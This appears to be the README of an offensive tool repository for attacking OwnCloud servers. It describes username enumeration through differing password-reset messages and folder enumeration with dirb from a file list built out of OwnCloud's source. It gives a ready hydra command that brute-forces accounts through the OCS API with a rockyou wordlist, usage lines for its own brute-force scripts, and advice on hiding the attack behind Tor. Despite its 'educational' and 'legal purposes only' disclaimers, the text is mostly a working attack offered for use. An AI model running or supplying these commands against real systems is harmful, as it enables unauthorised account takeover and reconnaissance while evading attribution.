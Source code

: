 ======
OwnCloud Crack

A repository for OwnCloud hacking, originally intended only to bruteforce accounts. Later, more ideas came.


====
User enumeration

Forgot password option:
User doesn't exist message on web login: "Couldn't send reset email. Please make sure your username is correct."
User exist message on web login: "The link to reset your password has been sent to your email. If you do not receive it within a reasonable amount of time, check your spam/junk folders. If it is not there ask your local administrator."


====
Folder enumeration

Get the source code from github and the follow the filenames from the core folder.

git clone https://github.com/owncloud/core
cd core
find -follow | sed 's/^\.\///g' > owncloud_files.txt
dirb https://testdomain.org owncloud_files.txt


====
Bruteforce OwnCloud accounts using it's OCS API.

Note that these scripts (ocrk.sh and ocrk.py) were written for educational purposes and you can also use hydra:
hydra domain.org https-post-form "/ocs/v1.php/person/check:login=^USER^&password=^PASS^:S=<status>ok</status>" -L userlist.txt -P rockyou.txt -vv 

ocrk help with the "-h" switch: ./ocrk.sh -h

Before run, it's more convinient to make it executable: chmod +x ocrk.sh
Else you need to run it like "sh ocrk.sh"

Syntax: ./ocrk.sh <site url> <username> <passwordlist>
Example: ./orck.sh https://www.crkoc.com/ admin rockyou.txt

You can use this over Tor, but the "torify" command is not recommended. Use ". torsocks on" before running.


Use for legal purposes only.
